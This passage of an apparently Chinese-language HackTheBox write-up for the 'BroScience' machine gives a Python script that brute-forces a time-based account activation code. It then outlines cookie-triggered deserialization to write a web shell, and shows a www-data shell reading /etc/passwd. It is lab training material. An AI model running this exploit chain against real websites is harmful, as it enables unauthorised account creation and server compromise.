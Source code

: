 ```python
    'username' : ''.join(random.sample(string.ascii_letters + string.digits, 8)),
    'email' : ''.join(random.sample(string.ascii_letters + string.digits, 8)) + "@1.com",
    'password' : "123456",
    'password-confirm' : "123456"
}
print(data)

r = requests.post(target_url, data=data,verify=False)
print(r.text)

start = 1680672676 - 1
for i in range(2):
    print(f"\nstart: {start}")
    r = requests.get(getcode_url+"?time="+str(start))
    print(r.text)

    activate_url = f"https://broscience.htb/activate.php?code={activation_code}"
    print(f"activate_url: {activate_url}\n")

    r = requests.get(activate_url,verify=False)
    if "Invalid activation code." not in r.text:
        print(data)
        break
    start += 1
```

![](https://i.328888.xyz/2023/04/05/i84BBJ.png)
登陆之后，拿到有效的 PHPSESSID，之后通过 cookie 触发反序列化，写入 shell

![](https://i.328888.xyz/2023/04/05/i84QK8.png)

# 提权部分

拿到 www-data shell，查看 /etc/passwd

    www-data@broscience:/var/www$ cat /etc/passwd
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin